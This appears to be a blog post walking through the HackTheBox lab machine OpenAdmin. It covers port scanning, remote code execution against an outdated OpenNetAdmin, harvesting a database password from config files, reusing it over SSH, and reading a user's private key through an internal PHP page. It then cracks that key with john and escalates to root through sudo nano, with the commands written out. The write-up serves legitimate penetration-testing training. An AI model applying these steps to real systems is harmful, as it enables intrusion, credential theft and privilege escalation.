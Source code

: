 ```yaml
---
layout: single
title: "OpenAdmin Write-Up: HackTheBox"
excerpt: "OpenAdmin was a fun, easy machine with an interesting internal web application."
classes: wide
categories: [hackthebox]
date: 2020-05-02
tags: [hackthebox, hacking, penetration testing, write-ups]
header:
  teaser: \assets\images\htb\openadmin\banner-openadmin.png
  teaser_home_page: true
toc: true
toc_label: "Table of Contents"
toc_icon: "book-dead"  # corresponding Font Awesome icon name (without fa prefix)
# toc_sticky: true
---
```

![](\assets\images\htb\openadmin\banner-openadmin.png)
## TL;DR
OpenAdmin was a fun, easy machine with an interesting internal web application. With only two open ports, SSH (22) and HTTP (80) the attack surface is minimal. Web enumeration revealed a few web applications, one being an outdated OpenNetAdmin IP Address Management (IPAM) system (v18.1.1), which allowed RCE as the www-data user. Once we obtained a shell, system enumeration revealed stored credentials which allowed us to pivot via SSH to another user (Jimmy) and capture the user flag. The Jimmy user was also part of a unique group that allowed us access to an internal web application that output the SSH private key (encrypted, but easily cracked) to another user (Joanna). Joanna had sudo privileges to run Nano, which using the help of GTFOBins, gave us a root shell.

## Nmap Port Scan
Looking at the scan, we see a couple of ports open.

```bash
nmap -sCV -p- -oN nmap/openadmin-full 10.10.10.171
```
```bash
Nmap scan report for 10.10.10.171
Host is up (0.023s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.86 seconds
```

## Web Enumeration
Directory brute-forcing revealed several directories.

Command Used: `rustbuster dir -u http://10.10.10.171 -w /opt/SecLists/Discovery/Web-Content/common.txt -t 25`
![](\assets\images\htb\openadmin\rustbuster-openadmin.png)

`http://10.10.10.171/music/` Clicking Login, takes us to an ONA interface.
![](\assets\images\htb\openadmin\musicweb-openadmin.png)

OpenNetAdmin IP Address Management (IPAM) system
`http://10.10.10.171/ona/`
![](\assets\images\htb\openadmin\ona-openadmin.png)

## OpenNetAdmin Exploitation

Searchsploit revealed a couple of exploits for the version, one with Metasploit and one without. 
![](\assets\images\htb\openadmin\search-openadmin.png)

Copying the bash script directly from searchsploit left a few random carriage returns, etc., so the script needed a little cleanup. But after being cleaned up, it worked and we have a rudimentary shell as www-data.
![](\assets\images\htb\openadmin\exploit-openadmin.png)

I uploaded, upgraded and executed a proper php shell. 
![](\assets\images\htb\openadmin\phpshell-openadmin.png)

{% gist 32cc7df561b8076201312e4fc5294f14 %}

Time to enumerate! Quick hits with some grepping came up with:
![](\assets\images\htb\openadmin\database_settings-openadmin.png)

Command used:  `egrep -R 'password|pass'`

```php
<?php

$ona_contexts=array (
  'DEFAULT' => 
  array (
    'databases' => 
    array (
      0 => 
      array (
        'db_type' => 'mysqli',
        'db_host' => 'localhost',
        'db_login' => 'ona_sys',
        'db_passwd' => 'n1nj4W4rri0R!',
        'db_database' => 'ona_default',
        'db_debug' => false,
      ),
    ),
    'description' => 'Default data context',
    'context_color' => '#D3DBFF',
  ),
);

?>
```

Enumerating the database gives some hashes.
![](\assets\images\htb\openadmin\OpenAdmin-HTB.gif)

The hashes were essentially useless. But we have another way! A quick look at `/etc/passwd` reveals two regular users: jimmy & joanna. A quick try with jimmy and the `n1nj4W4rri0R!` password gets us a SSH session and some interesting finds with LinPEAS!
![](\assets\images\htb\openadmin\linpeas1-openadmin.png)
![](\assets\images\htb\openadmin\linpeas2-openadmin.png)
![](\assets\images\htb\openadmin\linpeas3-openadmin.png)

So it appears our friend Jimmy (and Joanna) is in an `internal` group which has write access to "/var/www/internal". A quick telnet/curl to the unusual port reveals it is an Apache service hosting `internal.openadmin.htb`. Putting two and two together, it is probably serving the internal directory. Let's check out that directory.

Well, it appears we can get Joanna's SSH private key:
main.php 
```
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

Easy enough.
![](\assets\images\htb\openadmin\joannakey-openadmin.png)

It's encrypted, so we use:

`/usr/share/john/ssh2john.py joanna.key > joanna.hash`

`john joanna.hash --wordlist=/usr/share/wordlists/rockyou.txt`

John made quick work of it, even in a VM.
![](\assets\images\htb\openadmin\john-openadmin.png)

We get in and capture user.txt.
![](\assets\images\htb\openadmin\user-openadmin.png)

Interesting sudo finding:
![](\assets\images\htb\openadmin\sudo-openadmin.png)

GTFOBins shows us we can get a shell with Nano, let's try it.
![](\assets\images\htb\openadmin\sudo_gtfobins-openadmin.png)

`sudo /bin/nano /opt/priv`
![](\assets\images\htb\openadmin\root-openadmin.png)

Got Root!
